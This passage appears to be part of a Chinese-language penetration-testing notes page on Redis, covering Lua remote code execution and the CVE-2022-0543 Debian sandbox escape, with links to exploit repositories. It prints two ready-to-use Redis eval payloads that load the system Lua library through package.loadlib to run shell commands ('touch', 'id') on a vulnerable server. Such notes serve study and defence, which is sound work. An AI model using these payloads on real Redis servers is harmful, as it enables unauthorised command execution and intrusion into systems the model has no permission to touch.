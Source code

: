 
---

## Lua RCE

**相关文章**
- [在Redis中构建Lua虚拟机的稳定攻击路径](https://www.anquanke.com/post/id/151203/)

**POC | Payload | exp**
- [iSafeBlue/redis-rce](https://github.com/iSafeBlue/redis-rce)
- [QAX-A-Team/redis_lua_exploit](https://github.com/QAX-A-Team/redis_lua_exploit)

---

## CVE-2022-0543 Redis沙盒逃逸

**描述**

在 Debian 上，Lua 由 Redis 动态加载，且在 Lua 解释器本身初始化时，module 和 require 以及 package 的 Lua 变量存在于上游 Lua 的全局环境中，而不是不存在于 Redis 的 Lua 上，并且前两个全局变量在上个版本中被清除修复了，而 package 并没有清除，所以导致 redis 可以加载上游的 Lua 全局变量 package 来逃逸沙箱。

**相关文章**
- [CVE-2022-0543 Redis沙盒逃逸分析](https://mp.weixin.qq.com/s/CgFT96vFfnOF4UFGvsCOyg)

**POC | Payload | exp**

需要知道 package.loadlib 的路径
```
# 利用 luaopen_os 函数
eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_os"); local os = os_l(); os.execute("touch /tmp/redis_eval"); return 0' 0

# 利用 luaopen_io 函数
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```
